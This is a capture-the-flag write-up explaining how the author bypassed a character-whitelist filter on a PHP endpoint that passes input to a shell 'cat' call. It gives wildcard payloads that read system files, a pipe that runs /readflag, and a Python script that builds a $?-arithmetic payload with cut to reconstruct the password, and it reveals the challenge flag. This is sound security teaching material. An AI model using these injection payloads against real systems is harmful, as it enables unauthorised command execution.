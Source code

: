 ## Shero

> We like cat, so don't abuse it please =(
>
> * 复读机

The premise of this challenge was quite simple. We are given the following source code, with the goal of finding the flag somewhere on the server.

```php
<?php
    $file = $_GET['f'];
    if (!$file) highlight_file(__FILE__);

    if (preg_match('#[^.cat!? /\|\-\[\]\(\)\$]#', $file)) {
        die("cat only");
    }

    if (isset($file)) {
        system("cat " . $file);
    }
?>
```

By supplying a `?f=` GET request parameter, we can run commands on the server. One problem though - the regex filter is more than a little restrictive.

![](<../.gitbook/assets/Screenshot 2022-06-09 at 10.57.05 PM.png>)

This is the part where the challenge turns from a web challenge to a command injection filter bypass challenge :sob:

The list of allowed characters are as follows:

* `.`
* `c`
* `a`
* `t`
* `!`
* `?`
* &#x20;``&#x20;
* `/`
* `|`
* `-`
* `[`
* `]`
* `(`
* `)`
* `$`

### Reading Arbitrary Files

One trick to bypass the character filter and run commands other than `cat` is to use [wildcards](https://tldp.org/LDP/GNU-Linux-Tools-Summary/html/x11655.htm). In particular, the `?` wildcard character is used to match any single character.

For example, using `cat /?tc/???t?`, we could read the `/etc/hosts` file.

![](<../.gitbook/assets/Screenshot 2022-06-09 at 11.31.41 PM.png>)

Using `cat /????????` yielded this very interesting-looking binary. At first glance, it contained the string `readflag.c`, so we could guess that this binary is probably called `readflag` and it runs with elevated permissions to read a flag file somewhere (so that we need RCE instead of simple file reading)

![](<../.gitbook/assets/Screenshot 2022-06-09 at 11.25.14 PM.png>)

If we download the binary and open it up in a decompiler, we would see that we need to pass the string `sRPd45w_0` as an argument (`argv[1]`) in order to read the flag. This was the result of rearranging the letters in the string `P4s5_w0Rd`.

![](<../.gitbook/assets/Screenshot 2022-06-09 at 11.33.44 PM.png>)

### Running Arbitrary Commands

Since the `|` character is allowed, we are able to use piping to terminate the `cat` command and start a new command. For example, using `?f=| /??a???a?` will translate to `cat | /??a???a?`, which runs the `/readflag` binary.

![](<../.gitbook/assets/Screenshot 2022-06-09 at 11.37.19 PM.png>)

### Passing the Argument

Now comes the torturous part. How do we get arbitrary characters to use as the password?

One thing that might help is that `$()` is allowed, so we could use [command substitution](https://www.gnu.org/software/bash/manual/html\_node/Command-Substitution.html) to get the strings we need.

When reading the binary previously, we could see that the string `P4s5_w0Rd` is in the binary. If we could run `strings` on the binary, somehow extract only the password string, and rearrange the letters, we could use command substitution to pass the correct password as an argument.

We could run `/usr/bin/strings /readflag` using `/???/???/?t????? /??a???a?`&#x20;

![](<../.gitbook/assets/Screenshot 2022-06-09 at 11.51.19 PM.png>)

Now we need some way of filtering out the rest of the strings and only keeping the relevant `P4s5_w0Rd` string. I came across [this writeup](https://github.com/InfoSecIITR/write-ups/tree/master/2016/33c3-ctf-2016/misc/hohoho) of a similar command injection challenge where the author used `/etc/alternatives/nawk` to filter output using regex, so I decided to try something similar.

Luckily enough, many useful regex characters are allowed - in particular, `.`, `[` and `]` are very useful. This allowed me to construct a regex that leaves only the password string.

![](<../.gitbook/assets/Screenshot 2022-06-09 at 11.56.15 PM.png>)

Using `/???/???/?t????? /???????? | /???/a?t???a?????/?a?? /[.-t][.-a][.-t][.-a][!-a].[.-a][.-t][c-t]/`, we can get the `P4s5_w0Rd` string!

![](<../.gitbook/assets/Screenshot 2022-06-10 at 12.00.36 AM.png>)

At this point, we could try passing in the string as an argument to `/readflag` using `$()`, but this will yield "Wrong Password!".

![](<../.gitbook/assets/Screenshot 2022-06-10 at 12.03.15 AM.png>)

### Rearranging the Letters

We needed a way to rearrange `P4s5_w0Rd` into `sRPd45w_0`. It would be great if we could get characters of the string at specified indices - it sure is nice that a [`cut` command](https://man7.org/linux/man-pages/man1/cut.1.html) exists for this very purpose!

By using `/???/???/c?t -cX`, we will get the character of the string at index X.

But how do we get numbers? It turns out that `$?` is one of the [special parameters](https://gnu.org/software/bash/manual/html\_node/Special-Parameters.html) in bash, containing the exit status code of the previous command. If the exit code is non-zero, then `$? / $?` will yield `1`, `$? / $? -- $? / $?` will yield `2`, and so on. If the exit code is zero, this method will lead to a division by zero error.

But how do we make the exit code non-zero? We just need to place an extra bogus command in front of it: `(a || /???/???/c?t -c$(($? / $?)))`.

Here's the script to generate the payload required to reconstruct the password string.

```python
original = "P4s5_w0Rd"
target = "sRPd45w_0"

final = ''
for char in target:
    idx = original.index(char)

    num = "$? / $?"

    for i in range(idx):
        num += "-- $? / $?"

    final += f"$(/???/???/?t????? /???????? | /???/a?t???a?????/?a?? /[.-t][.-a][.-t][.-a][!-a].[.-a][.-t][c-t]/ | (a || /???/???/c?t -c$(({num}))))"

print(final)
```

And here's the payload...

![](<../.gitbook/assets/Screenshot 2022-06-10 at 12.22.38 AM.png>)

### Putting It All Together

All we need to do now is to use the output from the previous script and put it behind `/readflag`.

![](<../.gitbook/assets/Screenshot 2022-06-10 at 12.26.47 AM.png>)

and we get the flag: `grey{r35p3c7_70_b45h_m4573r_0dd14e9bc3172d16}`.

### References

* [https://github.com/InfoSecIITR/write-ups/tree/master/2016/33c3-ctf-2016/misc/hohoho](https://github.com/InfoSecIITR/write-ups/tree/master/2016/33c3-ctf-2016/misc/hohoho)&#x20;
